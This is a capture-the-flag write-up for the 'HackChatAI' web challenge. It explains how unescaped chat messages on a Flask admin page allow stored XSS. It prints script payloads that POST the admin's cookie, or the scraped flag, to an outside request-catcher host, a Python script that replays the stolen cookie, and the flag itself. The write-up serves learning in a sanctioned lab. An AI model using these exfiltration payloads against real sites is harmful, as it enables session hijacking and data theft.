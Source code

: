 # HackChatAI \[388 points\] (6 solves)

> Why rely on humans for conversation when AI can handle it for you?

### Files:
[src.zip](/web/HackChatAI/src)

This challenge gives us a Flask chat app which allows us to communicate with a GPT-4o model and optionally request a human. Requesting a human spins up a Selenium webdriver and visits the `/admin` chat, but nothing is returned from there.

## The Attack Vector

The goal is pretty obvious: steal the admin's cookie, log in to `/admin` and get the flag from the admin chat.

Since this is a Flask app, the biggest thing that I was looking for was if the challenge disabled autoescaping. Autoescaping is done by default by Flask, and it ensures that anything dynamically loaded via templates into our HTML is treated like plain text, not as HTML. If the challenge turns autoescaping off, we will be able to perform basic XSS attacks to exfiltrate data from the admin. Yet, if we look at our `index.html` file, we can see that there aren't any `| safe` operators (these would turn off autoescaping and allow for our messages to be parsed as HTML):

```html
    <h2>Chat Page</h2>
    <div class="messages" id="messages">
        {% for message, is_response in chat_history %}
            <div>{{ 'Server: ' if is_response else 'You: ' }}{{ message }}</div>
        {% endfor %}
    </div>
```

I was stuck here for most of the challenge. If I'm not able to inject code, how can I steal the flag from the admin?

In this case, my mistake was the assumption that our Selenium instance is visiting the same chat as I was. The Selenium instance actually visits the `/admin` page with an admin cookie, which is what we're trying to steal. 

> ![NOTE]
> The Selenium instance only starts up when you write `I need a human` in the chat

If we look at the admin page:

```html
    <h3>Chat History</h3>
    <div class="chat-history">
        {% for chat in chat_history %}
        <div class="chat-message">
            <div class="chat-date">{{ chat[0]|safe }}</div>
        </div>
        {% endfor %}
    </div>
```

We can see that all of our messages have autoescaping turned off, allowing for us to use XSS to steal the admin account.

When tinkering with different XSS attacks, the biggest deterrent I found was this error I:

![console fetch error](/web/HackChatAI/solution/cors_error.png)

I thought this meant that I wasn't able to POST the data, so I started considering exfiltrating data with WebRTC and DNS out-of-bound interactions. But, if you read the error carefully, it's specifying that the *response* is being blocked, not the *request*, which means that our data is being sent, but any response we get will be blocked by CORS. That doesn't matter, because we're not returning anything from the request.


## Execution

Here is my basic XSS attack to exfiltrate the cookie from the admin:

```js
<script>
    fetch("https://hackbox.requestcatcher.com", { 
        method: "POST",
        headers: { "Content-Type": "text/plain" },
        body: document.cookie
    });
</script>
```
<details>
<summary>Minified</summary>

```html
<script>fetch("https://hackbox.requestcatcher.com", { method: "POST", headers: { "Content-Type": "text/plain" }, body: document.cookie });</script>
```

</details>

In this POST request, I used [`requestcatcher`](https://requestcatcher.com/) to see all `POST`ed data, mainly because it's free and unblocked on my school's WiFi. Once I input the XSS into the chat and requested a human, we get `POST`ed data of the admin cookies:

![cookies from admin](/web/HackChatAI/solution/stolen_cookies.png)

So, this was the final script to get the admin page:
```py
import requests

url = "https://ictf24-high-hackchatai.chals.io/admin"
cookies = {
    "admin_cookie": "NBtL78S9MCdb8sOC",
    "play_token": "2ht823oPJa5jPrcy"
}

response = requests.get(url, cookies=cookies)

print(response.text)
```


Resulting in the HTML page of the admin containing the flag:
```
...
<h2>Welcome, Admin!</h2>
<h3>ictf{well_d0n3_on_s0lv1ng_th1s_ch4ll3ng3_hackchatai24}</h3>
...
```

### Alternate solution

However, it's actually easier to ignore the admin cookie altogether and simply steal the flag, since it's loaded on the admin page regardless:

![admin page](/web/HackChatAI/solution/admin_console_selenium.png)

This flag in an H3 element, which we can steal by parsing through all H3s that start with `ictf` (the flag format):

```html
<script>
    fetch("https://hackchatai.requestcatcher.com", {
        method: "POST",
        headers: {
            "Content-Type": "text/plain"
        },
        body: Array.from(document.querySelectorAll('h3')).find(el => el.textContent.trim().startsWith('ictf')).textContent
    });
</script>
```

<details>
<summary>Minified</summary>

```html
<script>fetch("https://hackchatai.requestcatcher.com", {method: "POST", headers: {"Content-Type": "text/plain"}, body: Array.from(document.querySelectorAll('h3')).find(el => el.textContent.trim().startsWith('ictf')).textContent.trim() || 'invalid'});</script>
```

</details>

<br>

We get a POST request like this:

![final post req](/web/HackChatAI/solution/request_catcher_post.png)

Giving us the flag.

```
ictf{well_d0n3_on_s0lv1ng_th1s_ch4ll3ng3_hackchatai24}
```

## Conclusion

I really enjoyed this challenge. It reminded me of PicoCTF 2024's hardest web challenge, `elements`, given that both of the challenges allowed the user to execute code in an automated web browser to exfiltrate the flag. This wasn't too hard, and was a nice practice problem in the middle of the competition.